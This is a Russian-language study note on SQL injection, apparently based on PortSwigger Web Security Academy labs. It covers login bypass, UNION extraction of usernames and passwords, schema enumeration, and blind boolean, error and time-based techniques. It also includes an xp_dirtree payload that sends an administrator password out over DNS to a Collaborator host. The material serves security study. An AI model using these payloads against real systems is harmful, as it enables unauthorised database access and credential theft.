

# 1. Внедрение SQL-кода (SQL injection)
https://portswigger.net/web-security/sql-injection


`SQL инъекция` (SQLi) - это уязвимость веб-безопасности, которая позволяет злоумышленнику `вмешиваться в запросы`, которые приложение отправляет в свою базу данных. Это может позволить злоумышленнику просматривать данные, которые он обычно не может извлечь. Во многих случаях злоумышленник может вызывать изменения в содержании или поведении приложения и изменять или удалять конфиденциальные данные:
* Пароли;
* Данные кредитной карты;
* Персональная информация пользователя.

### Как обнаружить уязвимости SQL инъекций ?
Вручную, используя систематический набор тестов против каждой точки входа в приложении. Для этого отправляете:
* Одиночный символ кавычки `'`. Ищет ошибки или другие аномалии.
* SQL-специфический синтаксис, который оценивает первоначальное значение точки входа и по другому значению ищет систематические различия в ответах приложений.
* Булевые условия, такие как `OR 1=1` и `OR 1=2`, ищите различия в ответах приложения.
* Полезные нагрузки, предназначенные для запуска временных задержек при выполнении запроса SQL ищут различия во времени, необходимом для ответа.
* Полезные нагрузки `OAST` (Out-of-band Application Security Testing) предназначены для запуска скрытного взаимодействия сети при выполнении в запросе SQL и мониторинга любых результирующих взаимодействий.
* Быстро и надежно найти большинство уязвимостей инъекций SQL с помощью `Burp Scanner`. 

Большинство уязвимостей SQL инъекций происходит в пределах условия `WHERE` запроса `SELECT`. Однако уязвимости инъекций SQL могут возникать в любом месте запроса:
* В `UPDATE`, в пределах обновленных значений `WHERE` условия.
* В `INSERT`, в пределах вставленных значений.
* В `SELECT`, в таблице или названии колонки.
* В `SELECT`, в рамках `ORDER BY` условия.

### 1.1 Поиск скрытых данных
Браузер запрашивает URL:
```
https://insecure-website.com/products?category=Gifts
```
Это заставляет приложение делать `SQL` запрос из базы данных:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Запрос SQL просит базу данных вернуть:
* Все записи (*)
* Таблица products
* Колонка category является Gifts
* Ограничение released = 1 для сокрытия продуктов, которые не выпускаются.

Приложение не реализует защиту от атак инъекций SQL. Злоумышленник может построить следующую атаку, например:
```
https://insecure-website.com/products?category=Gifts'--
```
Это приводит к запросу SQL:
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Важно `--` является индикатором комментариев в SQL. Это означает, что остальная часть запроса интерпретируется как комментарий и запрос больше не включает `AND released = 1`.

Аналогичную атаку, чтобы заставить приложение отображать все продукты в любой категории:
```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
Это приводит к запросу SQL:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
Измененный запрос возвращает все элементы, где либо category является Gifts, или `1 = 1` - всегда верно, запрос возвращает все предметы. 

### 1.2 Подрыв логики приложения
Если пользователь отправляет имя пользователя `wiener` и пароль `bluecheese`, приложение проверяет учетные данные, выполняя следующий запрос SQL:
```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
Если запрос возвращает данные пользователя, то вход в систему успешен. В противном случае отвергнут.

Злоумышленник может войти в систему как любой пользователь без необходимости получения пароля. Они могут сделать это с помощью последовательности комментариев SQL `--` для удаления проверки пароля из `WHERE` условие запроса. Например, отправка имени пользователя `administrator'--` и пустой пароль приводит к следующему запросу:
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
Этот запрос успешно регистрирует злоумышленника как пользователя administrator. 

### 1.3 Извлечение данных из других таблиц баз данных `UNION`
Злоумышленник может использовать уязвимость инъекций SQL для извлечения данных из других таблиц в базе данных. Вы можете использовать `UNION` для выполнения дополнительного `SELECT` запроса. Например, если приложение выполняет запрос, содержащий пользовательский ввод Gifts:
```
SELECT name, description FROM products WHERE category = 'Gifts'
```
Злоумышленник может подать ввод:
```
' UNION SELECT username, password FROM users--
```
Это приводит к тому, что приложение возвращает все имена пользователей и пароли вместе с именами и описаниями продуктов. 

Ключевое слово `UNION` позволяет выполнить один или несколько дополнительных `SELECT` запросов:
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
Этот SQL-запрос возвращает один набор результатов a,b,c,d из двух столбцов table1 и table2.  Для `UNION` необходимо, чтобы запросы возвращали одинаковое количество колонок и типы данных в каждой колонке должны быть совместимы между отдельными запросами.

#### Определение количества требуемых колонок
Есть два эффективных метода, чтобы определить, сколько колонн возвращается из первоначального запроса.

`Первый метод` — использование серии `ORDER BY` с постепенным увеличением индекса столбца до появления ошибки. Например, если точка инъекции находится внутри условия `WHERE` исходного запроса, можно отправлять следующие полезные нагрузки:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
```
SELECT id, username FROM users WHERE username = '' ORDER BY 1--'
```
В `ORDER BY` можно указывать столбец по его индексу, поэтому нет необходимости знать имена столбцов. Когда указанный индекс превышает количество фактических столбцов, база данных выдаёт ошибку, например: `The ORDER BY position number 3 is out of range of the number of items in the select list`.
Приложение может возвращать эту ошибку базы данных в HTTP-ответе, но иногда оно выдаёт только общее сообщение об ошибке или не возвращает никаких данных.

`Второй метод` — использование серии `UNION SELECT`, где указываются разные количества NULL:
```
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```
Если количество NULL не соответствует количеству столбцов, база данных выдаёт ошибку, например: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists`.
Мы используем NULL, потому что типы данных каждого столбца должны быть совместимы с оригинальными. NULL можно преобразовать практически в любой стандартный тип данных. 

Исходный серверный запрос:
```
SELECT id, username FROM users WHERE username = '<USER_INPUT>';
```
Ввод пользователя:
```
' UNION SELECT NULL, NULL--
```
Реальный SQL на сервере:
```
SELECT id, username FROM users WHERE username = '' UNION SELECT NULL, NULL--';
```
В HTTP-ответе проявиться по-разному:
* В лучшем случае вы увидите дополнительный контент, например строку в HTML-таблице.
* В других случаях NULL может вызвать другую ошибку, например `NullPointerException`.
* В худшем случае ответ будет выглядеть так же, как при неправильном количестве NULL, и метод окажется неэффективным.

#### Oracle
На Oracle, каждый `SELECT` запрос должен использовать `FROM` и указать действующую таблицу. Есть `встроенная таблица на Oracle` под названием `dual` которую можно использовать для этой цели:
```
' UNION SELECT NULL FROM DUAL--
' UNION SELECT NULL,NULL FROM DUAL--
```
Описанные полезные нагрузки используют последовательность комментариев двойного тиража `--`. На MySQL последовательность двойного тире должна сопровождаться пробелом.

Для получения более подробной информации о синтаксисе для конкретной базы данных - https://portswigger.net/web-security/sql-injection/cheat-sheet

#### Поиск столбцов с полезным типом данных
Интересные данные, которые вы хотите получить, обычно находятся в `строковой форме`. Вы можете отправить серию `UNION SELECT` полезные нагрузки, которые помещают значение строки в каждую колонку по очереди. Например, если запрос возвращает четыре столбца, вы отправите:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Если тип данных столбца не совместим со строчными данными: `Conversion failed when converting the varchar value 'a' to data type int`. Если ошибка не возникает, то соответствующая колонка подходит для извлечения строковых данных. 

#### Для БД MySQL и Microsoft: 
```
' UNION SELECT 'a',NULL,NULL,NULL--%20
```
**Названия таблиц и колонок вытаскивают запросом из information_schema.**
#### Если база `MySQL` / `PostgreSQL` / `MariaDB`
В параметр (URL / форму) вводишь вот это:
```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
***Для БД MySQL и Microsoft:***
```
' UNION SELECT table_name, NULL FROM information_schema.tables--%20
```
В ответе страницы появятся имена таблиц. Допустим таблица `users`.
Вводишь:
```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```
В ответе будут: id, username, password, email. После этого можно читать данные:
```
' UNION SELECT username, password FROM users--
```
***Если база MS SQL Server***
Таблицы:
```
' UNION SELECT name, NULL FROM sys.tables--
```
Колонки:
```
' UNION SELECT name, NULL FROM sys.columns WHERE object_id = OBJECT_ID('users')--
```
В браузере (GET):
```
https://site/page.php?id=' UNION SELECT table_name,NULL FROM information_schema.tables--
```
```
curl "https://site/page.php?id=' UNION SELECT table_name,NULL FROM information_schema.tables--"
```

#### Использование SQL-инъекционной атаки UNION для получения интересных данных
После того как определено количество столбцов в исходном SQL-запросе и выяснено, какие из них могут выводить текст, можно извлекать данные из базы.

Предположим:
* исходный запрос возвращает 2 столбца;
* точка инъекции находится в строковом параметре условия `WHERE`;
* в базе данных есть таблица `users` с колонками `username` и `password`.

В этом случае можно выполнить SQL-инъекцию с помощью `UNION`, передав, например, такое значение:
```
' UNION SELECT username, password FROM users--
```
Этот запрос заставит базу данных добавить к результату исходного запроса данные из таблицы users.

#### Определение версии базы данных для некоторых популярных типов баз данных:
| Тип базы данных 	| Запрос |
|---|---|
| Майкрософт, MySQL |	SELECT @@version |
| Oracle |	SELECT * FROM v$version |
| PostgreSQL |	SELECT version() |

***Для БД Oracle***
Для 1-ой лаборатории Oracle определите количество столбцов, которые возвращаются запросом и какие столбцы содержат текстовые данные:
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
`BANNER` — это название столбца в системном представлении `v$version` в Oracle SQL, который содержит текстовую строку с описанием версии:
```
' UNION SELECT BANNER, NULL FROM v$version--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
***Для БД MySQL и Microsoft***: 
```
' UNION SELECT @@version,null --%20
```
#### Перечисление содержания базы данных
Большинство типов баз данных (кроме Oracle) имеют набор представлений, называемый информационной схемой, например, `information_schema.tables` для перечисления таблиц в базе данных:
```
' UNION SELECT table_name,null from information_schema.tables--
```
`table_name` может быть и на втором месте, зависит от того в какой столбце вернутся тип строки:
```
' UNION SELECT NULL,'a'--
```
Вы можете запрашивать `information_schema.columns` для перечисления столбцов в отдельных таблицах:
```
' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users_aryxqb' --
```
`column_name` может быть и на втором месте, зависит от того в какой столбце вернутся тип строки:
```
' UNION SELECT NULL,'a'--
```
Используйте следующую полезную нагрузку для получения имен пользователей и паролей для всех пользователей:
```
' UNION SELECT username_oflmpq,password_vwzemw FROM users_aryxqb --
```
***Перечисление содержимого базы данных Oracle***:

На `Oracle` вы можете перечислить таблицы, запросив `all_tables`:
```
' UNION SELECT null,table_name from all_tables --
или
' UNION SELECT table_name,null from all_tables --
```
Вы можете перечислить столбцы, задавая вопросы `all_tab_columns`:
```
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_UPVLQK' --
```
Используйте следующую полезную нагрузку для получения имен пользователей и паролей для всех пользователей:
```
' UNION SELECT USERNAME_PIVCHF,PASSWORD_OVQUPI FROM USERS_UPVLQK --
```

#### Извлечение нескольких значений в одной колонке
Вы можете получить несколько значений вместе в одной колонке, сведя значения вместе. Вы можете включить сепаратор, чтобы вы могли различать комбинированные значения. Различные базы данных используют различный синтаксис для выполнения структурной концентрации.

Например, на `Oracle` вы можете отправить ввод:
```
' UNION SELECT username || '~' || password FROM users--
или 
' UNION SELECT NULL,password ||'~'|| username FROM users--
```
**Должна быть четкая последовательность колонок**

Вводимый запрос объединяет значения username и password поля, разделенные `~`:
```
administrator~s3cure
wiener~peter
carlos~montoya
```

### 1.4 Слепые уязвимости инъекций SQL `BLIND`
Во многих случаях SQL-инъекции являются `слепыми`: приложение не возвращает ни результаты запросов, ни сообщения об ошибках базы данных. Несмотря на это, такие уязвимости позволяют получать несанкционированные данные, хотя их эксплуатация сложнее.

Для использования слепых SQL-инъекций применяются следующие подходы:
* изменение логики запроса для выявления различий в ответе приложения в зависимости от истинности условия (булевая логика, условные ошибки);
* использование временных задержек, позволяющих определить результат условия по времени отклика;
* внеполосное взаимодействие (`OAST`), которое позволяет эксфильтровать данные, например через DNS-запросы к контролируемому домену. `OAST` — это когда приложение само выходит во внешний мир, и ты используешь это как сигнал. Если сайт не показывает ни ошибок, ни данных, ты заставляешь базу данных сделать сетевой запрос (например, DNS или HTTP) на сервер, который контролируешь ты.

#### 1.4.1 Эксплуатация слепой инъекции SQL путем запуска условных реакций (скрытые условия)
Рассмотрим приложение, которое использует файлы cookie отслеживания для сбора аналитики об использовании. Запросы к приложению включают заголовок cookie, такой как:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Если запрос содержит `TrackingId`, приложение выполняет SQL‑запрос, чтобы определить, является ли это известным пользователем:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = ’u5YD3PapBcR4lN3e7Tj4’
```
Этот запрос уязвим для SQL‑инъекций, но результаты запроса не возвращаются пользователю. Тем не менее приложение ведёт себя по‑разному в зависимости от того, возвращает ли запрос какие‑либо данные. Такого поведения достаточно, чтобы эксплуатировать слепую уязвимость SQL‑инъекции. Злоумышленник может извлекать информацию, вызывая различные реакции приложения — условно, в зависимости от результата выполнения внедряемого условия.

Предположим, что отправляются 2 запроса с разными значениями `TrackingId` в файле cookie:
```
...xyz' AND '1'='1
...xyz' AND '1'='2
```
Первое значение заставляет запрос вернуть данные, потому что внедряемое условие `AND '1'='1` всегда истинно. В результате отображается сообщение «Добро пожаловать обратно».

Второе значение приводит к тому, что запрос не возвращает никаких данных, поскольку внедряемое условие ложно (`'1'='2`). Соответственно, сообщение «Добро пожаловать обратно» не отображается.

Это позволяет определить результат выполнения любого внедряемого логического условия и извлекать данные по частям — шаг за шагом.

Например, предположим, что в базе данных есть таблица `Users` с колонками `Username` и `Password`, и среди пользователей присутствует запись с именем `Administrator`. Злоумышленник может определить пароль этого пользователя, отправляя серию запросов с проверками — по одному символу за раз.

Процесс извлечения первого символа пароля:
1. Начинаем с запроса:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
```
Если приложение возвращает сообщение «Добро пожаловать обратно», это означает, что условие истинно — первый символ пароля больше, чем m (по алфавиту).

2. Далее отправляем следующий запрос:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't'
```
Если сообщение «Добро пожаловать обратно» не появляется, значит, условие ложно — первый символ пароля не больше, чем t. Теперь мы знаем, что он находится в диапазоне от m до t.

3. Отправляем запрос, который подтверждает точное значение первого символа:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```
Если появляется сообщение «Добро пожаловать обратно», это подтверждает, что первый символ пароля — s.

Мы можем продолжить этот процесс, последовательно проверяя каждый следующий символ (меняя параметр в SUBSTRING на 2, 3 и т.д.), чтобы систематически восстановить полный пароль пользователя Administrator.

#### 1.4.2 Ошибочная SQL-инъекция
SQL‑инъекция на основе ошибок — это способ получить конфиденциальные данные из базы данных, используя сообщения об ошибках. Даже если приложение напрямую не показывает результаты запросов («слепой» контекст), ошибки могут выдать нужную информацию. Успех зависит от:
* настроек базы данных (конфигурации);
* типов ошибок, которые можно спровоцировать.

Есть два основных подхода:
1. Заставлять приложение выдавать разные ошибки в зависимости от результата логического условия. Это помогает понять, верно ли условие - `Эксплуатация слепой инъекции SQL путем запуска условных ошибок`. Вы можете использовать это так же, как и условные ответы в предыдущем разделе.
2. Вызывать ошибки, которые показывают данные из базы и так «слепая» уязвимость превращается в «видимую» - `Извлечение конфиденциальных данных с помощью многословных сообщений об ошибках SQL`.

##### 1.4.2.1 Эксплуатация слепой инъекции SQL путем запуска условных ошибок
Некоторые приложения выполняют запросы SQL, но их поведение не меняется, независимо от того, возвращает ли запрос какие-либо данные. Техника в предыдущем разделе не будет работать, потому что инъекция различных булевых условий не имеет никакого значения для ответов приложения.

Но часто можно заставить приложение реагировать по‑разному, если вызвать ошибку SQL. Идея в том, чтобы изменить запрос так, чтобы ошибка возникала только при выполнении определённого условия. Если база данных выдаёт необработанную ошибку, приложение может отреагировать, например, показать сообщение об ошибке или изменить HTTP‑ответ. По этой реакции можно понять, верно ли условие, которое мы проверяем.

Чтобы увидеть, как это работает, предположим, что отправляются два запроса, содержащие следующие значения параметра `TrackingId` для файлов `cookie`:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Эти входные данные используют `CASE` ключевое слово для проверки состояния и возврата различного выражения в зависимости от того, является ли выражение верным:
* В первом запросе условие (1=2) ложно, поэтому `CASE` возвращает `'a'`. Ошибки не возникает, запрос выполняется нормально.
* Во втором запросе условие (1=1) истинно, поэтому `CASE` пытается выполнить `1/0 — деление на ноль`. Это вызывает ошибку базы данных.

Если ошибка вызывает разницу в HTTP-ответе приложения, вы можете использовать это, чтобы определить, верно ли встроенное состояние.

Используя эту технику, вы можете получить данные, проверяя один символ за раз:
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
Что здесь происходит:
1. Мы ищем пользователя с именем `Administrator`.
2. Берём первый символ его пароля с помощью `SUBSTRING(Password, 1, 1)`.
3. Проверяем, больше ли этот символ, чем `'m'` (по алфавиту).
4. Если условие верно, вызываем ошибку `(1/0)`, если нет — возвращаем `'a'`.

Повторяя этот запрос с разными символами и условиями, можно постепенно восстановить весь пароль.

##### 1.4.2.2 Извлечение конфиденциальных данных с помощью многословных сообщений об ошибках SQL
Неправильная конфигурация базы данных иногда приводит к подробным сообщениям об ошибках. Они могут предоставить информацию, которая может быть полезна злоумышленнику, содержать фрагменты SQL‑запроса или даже данные из базы. Например, рассмотрим следующее сообщение об ошибке от Базы Данных, которое возникает после инъекции одинарной `'` кавычки в параметр `id`:
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```
Что мы получаем из этой ошибки:
* полный SQL‑запрос, который сформировало приложение;
* понимание, как приложение обрабатывает наш ввод;
* возможность построить корректный запрос с вредоносной нагрузкой.

Комментирование остальной части запроса предотвратило бы лишнюю единичную цитату от нарушения синтаксиса. Чтобы избежать синтаксических ошибок (например, из‑за лишних кавычек), можно использовать комментарии (--) для отключения части запроса.

Иногда вы можете побудить приложение генерировать сообщение об ошибке, которое содержит некоторые данные, которые возвращаются запросом. Это эффективно превращает `слепую` уязвимость инъекций SQL в `видимую`.

Если попытаться преобразовать строку в число (int), база данных выдаст ошибку, которая может содержать исходные данные. Вы можете использовать `CAST()` функцию для достижения этой цели. Это позволяет конвертировать один тип данных в другой. Например, представьте себе запрос, содержащий следующее утверждение:
```
CAST((SELECT example_column FROM example_table) AS int)
```
Что происходит:
* Запрос пытается получить данные из `example_column`.
* `CAST()` пытается преобразовать эти данные в тип `int`.
* Если данные — строка (например, "Example data"), преобразование не удаётся, и база данных выдаёт ошибку. Часто данные, которые вы пытаетесь прочитать, являются строкой. Попытка преобразовать это в несовместимый тип данных, например `int`, может вызвать ошибку:
```
ERROR: invalid input syntax for type integer: "Example data"
```
Таким образом, ошибка не только сообщает о проблеме, но и показывает данные, которые мы пытались прочитать. Этот метод полезен, если:
* ограничение на количество символов не позволяет использовать условные реакции;
* нужно быстро получить данные без сложных проверок.

#### 1.4.3 Эксплуатация слепой инъекции SQL путем запуска временной задержки
Иногда приложение «умело» обрабатывает ошибки базы данных: даже если SQL‑запрос вызывает ошибку, пользователь видит стандартный ответ (например, страницу с сообщением «Произошла ошибка»). В таких случаях методы, основанные на ошибках (как в предыдущем разделе), не сработают — различий в ответах приложения нет.

Но есть другой способ — использовать временные задержки. Идея в том, чтобы заставить SQL‑запрос выполняться дольше, если выполняется определённое условие. Поскольку приложение обычно обрабатывает запросы последовательно (синхронно), задержка в выполнении SQL‑запроса приведёт к задержке в ответе HTTP. Измеряя время ответа, можно понять, верно ли условие, которое мы проверяем.

Как это работает:
1. Мы внедряем в запрос условие (например, проверяем, равен ли первый символ пароля букве «m»).
2. Если условие верно, запрос «засыпает» на заданное время (например, 10 секунд).
3. Если условие ложно, запрос выполняется быстро.
4. Измеряем время ответа сервера:
    * быстрый ответ → условие ложно;
    * долгий ответ → условие верно.

Методы запуска временной задержки являются специфическими для типа используемой базы данных. Например, на Microsoft SQL Server вы можете использовать следующее для тестирования состояния и запуска задержки в зависимости от того, является ли выражение правдой:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
Разберём, что происходит:
* В первом запросе условие (1=2) ложно. Команда `WAITFOR DELAY` не выполняется, запрос завершается быстро. Задержки нет.
* Во втором запросе условие (1=1) истинно. Команда `WAITFOR DELAY` '0:0:10' заставляет базу данных «замереть» на 10 секунд. Ответ сервера придёт с задержкой.

По времени ответа мы можем определить, верно ли наше условие.

Используя эту технику, мы можем получить данные, проверяя один символ за раз:
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
Что здесь происходит (по шагам):
* `SELECT COUNT(Username)` — проверяем, существует ли пользователь с именем Administrator.
* `SUBSTRING(Password, 1, 1)` — берём первый символ его пароля.
* `> 'm'` — проверяем, больше ли этот символ, чем 'm' (по алфавиту).
* Если результат запроса равен 1 (условие верно), выполняется `WAITFOR DELAY`, вызывающая задержку.
* `{delay}` — это переменная, обозначающая время задержки (например, 10 секунд). Её можно менять для удобства тестирования.

Важные нюансы:
* ***Время ответа***. Нужно учитывать нормальное время ответа сервера без задержек. Лучше проводить тесты несколько раз и брать среднее значение.
* ***Сетевые задержки***. Интернет‑соединение может быть нестабильным. Ложные срабатывания возможны из‑за перегрузки сети.
* ***Ограничения базы данных***. Некоторые серверы ограничивают время выполнения запросов или блокируют подозрительные задержки.
* ***Обнаружение атак***. Системы безопасности (IDS/IPS) могут заметить аномальные задержки и заблокировать IP‑адрес атакующего.

#### 1.4.4 Эксплуатация слепой SQL-инъекции с использованием внеполосных (OAST) методов
Приложение может выполнять тот же SQL-запрос, что и предыдущий пример, но делать это асинхронно. Основной поток продолжает обрабатывать запрос пользователя, а отдельный поток выполняет SQL‑запрос (например, для обработки cookie отслеживания).

Запрос по-прежнему уязвим для инъекций SQL, но ни один из методов, описанных до сих пор, не будет работать:
* ответ приложения не меняется, даже если запрос вернул данные;
* ошибки базы данных «глотаются» и не видны пользователю;
* задержки выполнения запроса не влияют на время ответа сервера.

Можно использовать внеполосные (Out‑of‑Band, `OAST`) методы. Идея в том, чтобы заставить базу данных отправить данные по стороннему каналу — например, через сетевой запрос на сервер, который вы контролируете. По этим запросам можно понять, верно ли условие, и даже получить реальные данные из базы.

Для этой цели может использоваться различные сетевые протоколы, но, как правило, наиболее эффективным является DNS (служба доменного имени). Многие производственные сети обеспечивают свободный выход запросов DNS, потому что они необходимы для нормальной работы производственных систем:
* DNS‑запросы обычно разрешены в корпоративных сетях — они нужны для нормальной работы;
* многие файрволы пропускают DNS‑трафик без строгой проверки;
* DNS позволяет передавать данные в виде доменных имён (поддоменов).

Самый простой и надежный инструмент для использования внеполосных методов - `Burp Collaborator`. Это сервер, который обеспечивает индивидуальные реализации различных сетевых сервисов, включая DNS:
* предоставляет уникальные поддомены для тестирования;
* отслеживает входящие DNS‑запросы;
* фиксирует любые сетевые взаимодействия, вызванные вашей полезной нагрузкой. 

`Burp Suite Professional` включает в себя встроенный клиент, который настроен на работу с `Burp Collaborator` прямо из коробки. 

Методы запуска DNS-запроса специфичны для типа используемой базы данных. В `Microsoft SQL Server` есть процедура `xp_dirtree`, которая может инициировать DNS‑запрос при попытке доступа к сетевому ресурсу:
```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```
1. База данных пытается подключиться к несуществующему сетевому пути `//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a`.
2. Перед этим она выполняет DNS‑запрос для разрешения домена `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`.
3. `Burp Collaborator` регистрирует этот запрос — вы получаете уведомление о том, что инъекция сработала.

Вы можете использовать Burp Collaborator для создания уникального поддомена и опроса сервера Collaborator, чтобы подтвердить, когда происходят любые поиски DNS.

Подтвердив способ запуска внеполосных взаимодействий, вы можете использовать свой канал для извлечения данных из уязвимого приложения. Например, можно получить реальные данные из базы:
```
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
Разберём запрос по шагам:
1. `declare @p varchar(1024)` — создаём переменную `@p` для хранения данных.
2. `set @p=(SELECT password FROM users WHERE username='Administrator')` — записываем в `@p` пароль пользователя Administrator.
3. `exec('master..xp_dirtree "...")'` — формируем строку, где пароль встраивается в домен:
    * если пароль `S3cure`, итоговый домен будет `S3cure`.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net;
4. База данных пытается разрешить этот домен через DNS.
5. `Burp Collaborator` получает запрос и показывает вам полный домен — вы видите пароль в поддомене.

Этот ввод считывает пароль для Administrator, добавляет уникальный поддомен Collaborator и запускает поиск DNS. Из этой строки - `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net` вы извлекаете пароль: `S3cure`

Преимущества `OAST‑методов`:
1. Высокая вероятность успеха. DNS‑трафик редко блокируется полностью.
2. Прямая эксфильтрация данных. Вы получаете данные сразу, без необходимости перебирать символы или ждать задержек.
3. Обход ограничений. Работает там, где не помогают ошибки или временные задержки.
4. Универсальность. Можно адаптировать под разные базы данных и протоколы (DNS, HTTP, SMB и др.).

Важные нюансы и ограничения
1. Зависимость от СУБД. Методы запуска DNS‑запросов различаются для разных баз данных (например, в MySQL или PostgreSQL нужны другие команды).
2. Сетевые фильтры. Некоторые организации блокируют внешние DNS‑запросы или используют внутренние резолверы.
3. Обнаружение атак. Системы безопасности могут отслеживать аномальные DNS‑запросы (например, длинные поддомены).
4. Объём данных. DNS имеет ограничения на длину домена — очень большие данные придётся разбивать на части.


### разработать скрипт тетсирования на sql атаку - вывод дерева сайта, вывод форм на сайте, вывод фильтров и тестирование каждой формы или фильтра sql атакой...